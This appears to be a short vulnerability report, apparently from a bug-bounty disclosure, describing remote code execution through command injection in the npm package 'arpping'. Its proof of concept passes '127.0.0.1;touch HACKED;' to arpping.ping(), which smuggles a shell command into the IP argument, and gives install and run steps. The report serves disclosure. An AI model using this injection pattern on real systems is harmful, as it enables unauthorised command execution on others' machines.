# Description

Remote Code Execution (RCE) in arpping

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const Arpping = require('arpping');
var arpping = new Arpping();
arpping.ping(["127.0.0.1;touch HACKED;"]);
```

2. Execute the following commands in terminal:

```
npm i arpping # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
